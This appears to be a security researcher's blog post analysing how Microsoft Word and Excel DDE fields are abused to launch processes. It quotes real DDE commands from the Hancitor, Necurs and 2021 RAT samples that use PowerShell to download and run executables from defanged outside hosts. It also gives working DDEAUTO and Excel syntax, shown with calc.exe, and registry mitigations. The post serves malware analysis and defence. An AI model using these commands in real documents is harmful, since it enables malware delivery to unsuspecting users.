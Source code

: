 ```yaml
---
layout: post
title: Word DDE Malware
categories: [Malware, Word, DDE]
excerpt:  Microsoft Word supports a legacy feature called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors.
---
```

(Estimated Reading Time: 11 minutes)

- [Word and DDEAUTO](#Word-and-DDEAUTO)
- [DDE in Past Malware](#DDE-in-Past-Malware)
- [My DDE Samples](#My-DDE-Samples)
- [Mitigations](#Mitigations)
- [References](#references)

## Word and DDEAUTO
 Microsoft Word supports a legacy feature called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors. It does present several popup warnings for the user so is not a silent attack method. However, it does still seem to be used in the wild and has been used in the past so I thought it was worth a closer look and a consolidation of information. 

It is worth noting that DDE attacks are no more effective than macro-based attacks. DDE attacks also require the user to click through a series of warnings like below. In the samples I made, I had to click through 2 warnings on Office 2016. 

![warning1](/images/warning1.jpg)
![warning2](/images/warning2.jpg)

## DDE in Past Malware
 
Hancitor Malware used DDE, reported in Oct,2017 on isc.sans.edu. The doc used the following DDE command. SHA256 hash: f945105f5a0bc8ea0d62a28ee62883ffc14377b6abec2d0841e88935fd8902d3

```
 "DdE" c:\\Windows\\System32\\cmd.exe " /k powershell.exe (New-Object System.Net.WebClient).DownloadFile('hxxp://frontiertherapycenter.com/16.exe','%TEMP%\\tvs.exe');Start-Process '%TEMP%\\tvs.exe'"
```

Necurs Botnet usd DDE, also discussed on isc.sans.edu in Oct,2017. I was able to grab this file from virusshare.com. Interestingly, when I ran strings.exe and strings.py on the file the DDE command was not found in the strings. TrID listed this file as a .docx (ie the modern Office file format) SHA256 hash:  3fa85101873d1c3447594c309ea1e324beb578843e1fab7c05189830d2def126

```
DDE C:\\Windows\\System32\\cmd.exe "/k powershell -NoP -sta -NonI -w hidden $e=(New-Object System.Net.WebClient).DownloadString('hxxp://arkberg-design.fi/KJHDhbje71');powershell -e $e "  
```

More recently [DDE was back in the news]((https://isc.sans.edu/forums/diary/Dynamic+Data+Exchange+DDE+is+Back+in+the+Wild/27116)) in Feb,2021 as part of a phishing attack to download a RAT. The sample is the older OLE word format. The file name was e-Voucher.doc. When I viewed the sample with the strings command the DDE command can be seen easily. SHA256:de966b0d005dda776a6104f999f294d62c5b1f6b6e5c6f79de5135ec66ba4ee4

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe (new-object system.net.webclient).downloadfile(' hxxp://fullhash.cloud/tmpl_c/mscalc.exe','%temp%\\mscalc.exe');start-process '%temp%\\mscalc.exe'"  \* mergeformat 
```

The website [labs.inquest.net](labs.inquest.net)
primarily focuses on deep inspection of office type documents. By visiting the site and searching for 'Heuristics' and alert on 'Microsoft Dynamic Data Exchange (DDE)' you can see a listing of all instances of DDE usage in their database. As of 3/1/21 it returned 10 results.

![inquest](/images/inquestlabs.jpg)

One of the samples in this list from inquestlabs was a bit interesting in that it obfuscated the typical C:\\windows\system32\\ path seen in above samples by using a reverse solidus char, as seen below.

![ddecmd](/images/ddecmd.jpg)

I also stubbled across these samples from [@GossiTheDog](https://twitter.com/GossiTheDog/status/918113076985163778) which had a bit more complexity to them then just downloading and executing something. This first one Creates a new user on the box, and the second one starts up IE to perform a download as seen below. I've changed the URL just so you can see the technique as the image is a bit hard to read.

```
DDEAUTO C:\\Windows\\Sysem32\\cmd.exe "/k powershell.exe $e=new-object -com internetexplorer.application; $e.visible=$true; $e.navigate2('https://www.google.com/'); powershell -e $e
```

![ddecmd](/images/iedl.jpg)

The usage of DDE is not limited to Word only. The following [linked blog](https://pentestlab.blog/2018/01/16/microsoft-office-dde-attacks/) has examples using Excel, outlook, outlock calendar appointments,etc. It is quite simple to launch calc from Excel as well using a command like this in the first row, first column of an excel sheet. I posted this Excel file on my github site as well.
```
=cmd|'/c calc.exe'!A1
```

## My DDE Samples

In my research on DDE I wanted to create a couple non-malicous samples for research that simply launch calc.exe. I have posted my samples on [my github site here](https://github.com/Cyber00011011/DDE_Samples). I created 4 Word documents. Two in the newer Word format, and 2 in the older format. These samples were made with Office 2016. At first, I didn't understand why I couldn't see the DDE command in the newer Word docx with strings.exe, but eventually realized I needed to unzip them first. It also helped reading this [blog from inquest.net on DDE](https://inquest.net/blog/2017/10/13/microsoft-office-dde-macro-less-command-execution-vulnerability).

Here is the sample cmd I used to launch calc.exe. This lines up with the newer sample seen in 2021. I tried, but could not get the DDE C:\\Windows\\System32\\cmd.exe style command to work for me in Office 2016. 

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe start-process 'calc.exe'"  \* mergeformat 
```

## Mitigations

The [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440) on this topic recommends either disabling the DDE feature via a registry key below, or for customers on Windows 10 1709 or greater using the Attack Surface Reduction (ASR) Rules. 

* For Office 2010 and later versions, to disable the DDE feature via the Registry Editor

> [HKEY_CURRENT_USER\Software\Microsoft\Office\<version>\Word\Options\WordMail] DontUpdateLinks(DWORD)=1

* For Office 2007, to disable the DDE feature via the Registry Editor:

> [HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Word\Options\vpref] fNoCalclinksOnopen_90_1(DWORD)=1

## References
* Link to [Microsoft DDE Overview](https://docs.microsoft.com/en-us/windows/win32/dataxchg/dynamic-data-exchange-overviews)
* Link to [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)
* Link to [Necurs Botnet malspam pushes Locky using DDE attack](https://isc.sans.edu/forums/diary/Necurs+Botnet+malspam+pushes+Locky+using+DDE+attack/22946)
* Link to [Dynamic Data Exchange DDE is Back in the Wild](https://isc.sans.edu/forums/diary/Dynamic+Data+Exchange+DDE+is+Back+in+the+Wild/27116)
* Link to [Migo Kedem blog on DDE](https://medium.com/@migokedem/malware-embedded-in-microsoft-office-documents-dde-exploit-macroless-4f197387ddbd)
* Link to [My DDE Non-malicious Samples](https://github.com/Cyber00011011/DDE_Samples)